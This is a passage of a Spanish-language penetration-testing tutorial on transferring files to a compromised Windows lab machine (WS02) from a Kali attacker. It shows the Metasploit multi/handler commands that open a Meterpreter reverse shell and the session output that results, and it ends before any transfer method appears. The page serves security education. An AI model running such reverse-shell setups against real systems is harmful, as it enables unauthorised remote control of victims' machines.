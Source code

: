 ```yaml
---
icon: shuffle
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Transferencia de ficheros

Con esta tecnica de pasarnos ficheros a traves de la `red` tendremos varias formas de hacerlo, por ejemplo una de ellas es tanto si tenemos un acceso a la maquina victima tanto logico como fisico teniendo una interfaz grafica podremos interactuar con los componentes graficos de la maquina victima, pero si tenemos una `shell reversa` teniendo acceso solo desde terminal tendremos que hacerlo de otras formas.

Teniendo estos `2` escenarios vamos a ver como seria la transferencia de archivos en dichos escenarios.

Teniendo nuestro `kali` como maquina atacante y el `WS02` (`Windows`) como maquina victima, vamos a crearnos una conexion `reversa` a la maquina `WS02` mediante `metasploit` con el `meterpreter`, pero no utilizaremos `meterpreter` utilizaremos la `shell` de `Windows`.

```shell
msfconsole -q
```

Configuramos la escucha de la siguiente forma:

```shell
use multi/handler
set LHOST 192.168.5.205
set LPORT 7777
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

Ejecutamos el `binario` para que nos cree la `shell` desde el `Windows` y veremos lo siguiente en `metasploit`:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] Sending stage (177734 bytes) to 192.168.5.209
[*] Meterpreter session 1 opened (192.168.5.205:7777 -> 192.168.5.209:61133) at 2025-02-12 05:54:49 -0500

meterpreter >
```
